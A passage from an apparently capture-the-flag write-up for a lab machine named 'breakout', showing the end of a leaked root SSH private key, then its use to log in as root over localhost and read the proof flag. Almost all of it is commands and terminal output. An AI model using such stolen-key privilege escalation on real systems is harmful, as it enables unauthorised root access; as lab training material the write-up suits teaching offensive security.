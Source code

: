 ```
D56zHngA4AqT6Wwekn7O2CpC42D7sHrwwKmIwZXq3CN0q9vKDnSx/R5NsffYWmoMVPuzPD
Jk0EgxtJ+Tv6+f9xkGiS1W37+e3vYH9DVhFdE2braEe1s7JfA93ApkJkyM2Y/JAXFwdK2W
75zhp980aNTLqV44zfdbwp13AoC9RT8qZubSrPexEud14IWE+xaa2IdQbN1D960EQGr9vC
jqcQX7zYj5WB3rAAAADXJvb3RAYnJlYWtvdXQBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
coaran@breakout:/tmp/srv/gitlab/logs/puma$ 
```

Boom!!! It worked 

Now lets ssh in as root using the key xD

```
coaran@breakout:/tmp/srv/gitlab/logs/puma$ chmod 600 pwned 
coaran@breakout:/tmp/srv/gitlab/logs/puma$ ssh -i pwned root@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:b8kEbLgPOJQUid4sdWv2g7ZMK1K1VKUKKFwx6ysCoCw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 27 Jan 2023 02:07:48 AM UTC

  System load:  0.03              Processes:                321
  Usage of /:   81.3% of 9.78GB   Users logged in:          1
  Memory usage: 81%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   4%                IPv4 address for ens160:  192.168.168.182


39 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


*** System restart required ***
Last login: Fri Mar  4 18:36:31 2022
root@breakout:~# ls -al
total 56
drwx------  6 root root 4096 Jan 26 23:08 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
lrwxrwxrwx  1 root root    9 Mar  3  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
-rwxr-xr-x  1 root root 4646 Mar  3  2022 build.sh
drwx------  2 root root 4096 Mar  3  2022 .cache
-rw-r--r--  1 root root 1094 Mar  3  2022 data.zip
-rw-r--r--  1 root root  407 Jun  3  2021 docker-compose.yml
-rw-r--r--  1 root root 1386 Jun  3  2021 healthy.sh
drwxr-xr-x  3 root root 4096 Jan  7  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rwx------  1 root root   33 Jan 26 23:08 proof.txt
drwxr-xr-x  3 root root 4096 Jan  7  2021 snap
drwx------  2 root root 4096 Nov 26  2021 .ssh
root@breakout:~# cat proof.txt 
f32cd9f927f54c47417175a4ca85c51c
root@breakout:~#
```
